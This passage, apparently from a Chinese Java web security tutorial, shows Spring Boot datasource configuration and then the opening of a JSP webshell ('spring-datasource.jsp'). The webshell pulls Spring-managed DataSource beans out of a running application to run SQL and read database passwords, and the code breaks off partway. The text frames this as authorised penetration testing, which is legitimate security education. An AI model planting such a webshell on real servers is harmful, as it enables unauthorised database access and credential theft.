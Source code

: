 在SpringBoot中只需要在`application.properties`或`application.yml`中定义`spring.datasource.xxx`即可完成DataSource配置。

```java
spring.datasource.url=jdbc:mysql://localhost:3306/mysql?autoReconnect=true&zeroDateTimeBehavior=round&useUnicode=true&characterEncoding=UTF-8&useOldAliasMetadataBehavior=true&useOldAliasMetadataBehavior=true&useSSL=false
spring.datasource.username=root
spring.datasource.password=root
spring.datasource.type=com.alibaba.druid.pool.DruidDataSource
spring.datasource.driver-class-name=com.mysql.jdbc.Driver
```

### Spring 数据源Hack

我们通常可以通过查找Spring数据库配置信息找到数据库账号密码，但是很多时候我们可能会找到非常多的配置项甚至是加密的配置信息，这将会让我们非常的难以确定真实的数据库配置信息。某些时候在授权渗透测试的情况下我们可能会需要传个shell尝试性的连接下数据库(`高危操作，请勿违法!`)证明下危害，那么您可以在`webshell`中使用注入数据源的方式来获取数据库连接对象，甚至是读取数据库密码(**切记不要未经用户授权违规操作！**)。

**`spring-datasource.jsp`获取数据源/执行SQL语句示例**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.springframework.context.ApplicationContext" %>
<%@ page import="org.springframework.web.context.support.WebApplicationContextUtils" %>
<%@ page import="javax.sql.DataSource" %>
<%@ page import="java.sql.Connection" %>
<%@ page import="java.sql.PreparedStatement" %>
<%@ page import="java.sql.ResultSet" %>
<%@ page import="java.sql.ResultSetMetaData" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<style>
    th, td {
        border: 1px solid #C1DAD7;
        font-size: 12px;
        padding: 6px;
        color: #4f6b72;
    }
</style>
<%!
    // C3PO数据源类
    private static final String C3P0_CLASS_NAME = "com.mchange.v2.c3p0.ComboPooledDataSource";

    // DBCP数据源类
    private static final String DBCP_CLASS_NAME = "org.apache.commons.dbcp.BasicDataSource";

    //Druid数据源类
    private static final String DRUID_CLASS_NAME = "com.alibaba.druid.pool.DruidDataSource";

    /**
     * 获取所有Spring管理的数据源
     * @param ctx Spring上下文
     * @return 数据源数组
     */
    List<DataSource> getDataSources(ApplicationContext ctx) {
        List<DataSource> dataSourceList = new ArrayList<DataSource>();
        String[]         beanNames      = ctx.getBeanDefinitionNames();

        for (String beanName : beanNames) {
            Object object = ctx.getBean(beanName);

            if (object instanceof DataSource) {
                dataSourceList.add((DataSource) object);
            }
```